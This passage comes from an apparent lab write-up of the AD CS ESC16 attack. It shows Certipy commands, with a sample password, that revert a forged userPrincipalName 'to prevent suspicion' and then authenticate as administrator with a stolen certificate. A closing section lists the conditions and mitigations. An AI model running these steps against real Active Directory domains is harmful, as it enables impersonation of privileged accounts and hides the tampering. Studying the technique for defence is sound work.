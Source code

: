 <img src="assets/adcs-esc16/image7.png" alt="Error loading image">

Step 4: Revert the UPN Change

```
certipy account -u 'jcharles' -p 'complex1@' -target 'furious.local' -upn 'charles' -user 'jcharles' update
```

<img src="assets/adcs-esc16/image8.png" alt="Error loading image">

Reverts userPrincipalName back to prevent suspicion or disruption.


Step 5: Authenticate Using the Stolen Certificate

```
certipy auth -pfx administrator.pfx -domain furious.local -dc-ip 192.168.129.140
```

<img src="assets/adcs-esc16/image9.png" alt="Error loading image">

### Conclusion

The ESC16 vulnerability in Active Directory Certificate Services (AD CS) arises when the `szOID_NTDS_CA_SECURITY_EXT` extension is globally disabled, weakening the certificate-to-account binding and allowing legacy mappings like UPN or SAN to be used for authentication. This misconfiguration, combined with the absence of strict enforcement (`StrongCertificateBindingEnforcement` not set to 2), enables attackers with limited privileges to impersonate higher-privileged users by modifying their own userPrincipalName and requesting a forged certificate. Through tools like Certipy, attackers can identify and exploit this flaw to gain unauthorized access. To prevent such attacks, organizations must ensure strong certificate binding enforcement is enabled, the critical OID extension is not disabled, and certificate templates and user permissions are strictly audited and configured.

